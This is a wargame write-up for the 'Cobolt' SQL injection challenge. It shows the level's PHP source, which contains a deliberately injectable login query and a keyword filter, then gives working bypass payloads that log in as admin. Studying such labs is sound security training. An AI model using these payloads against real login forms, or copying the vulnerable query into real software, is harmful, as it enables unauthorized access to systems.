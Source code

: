 # **Cobolt**
## 1. What will we learn from this problem?
This problem wants to make sure you know basic **SQL injection**      

## 2. Analize codes  
    <?php
      include "./config.php"; 
      login_chk();
      dbconnect();
      
      if(preg_match('/prob|_|\.|\(\)/i', $_GET[id]))  
        exit("No Hack ~_~");  

      if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw]))
        exit("No Hack ~_~");   

      $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
      
      echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
      $result = @mysql_fetch_array(mysql_query($query)); 
      if($result['id'] == 'admin')  
        solve("cobolt");
      
      elseif($result['id'])  
        echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
      
      highlight_file(__FILE__); 
    ?>

### 1. preg_match()
We can't use string like these.(scope : id, pw)  

    prob | _ | . | ()

If we use one of these, we will see 'No Hack ~_~'

### 2. query
Query is this.

    select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')

Let's think how to modulate that.

### 3. if($result['id'] == 'admin')
If data which we got from database using query has 'id' field and the value of the field is same with 'admin',
then we can solve this problem.  
Then How can we do that?

## 3. Solution  
This is quite simple problem. There are two ways to modulate this query.  
These are id and pw.  

If we use id parameter, we use annotation keyword.  
And if we use pw parameter, we have to use ) char to escape md5() function.  
  
### Using Keyword  

    or | ' | ) | --

### These are my answers.
    
    ?id=admin'%20--%20  
      
    ?pw=')or id=('admin

    ?pw=')||id='admin'%20--%20

**Lastly, There can be many answers**

**[Go to see other solutions](https://github.com/moreal/TIL-Security/blob/master/WarGame/WriteUp/los.eagle-jump.org/00.%20ReadMe.md)**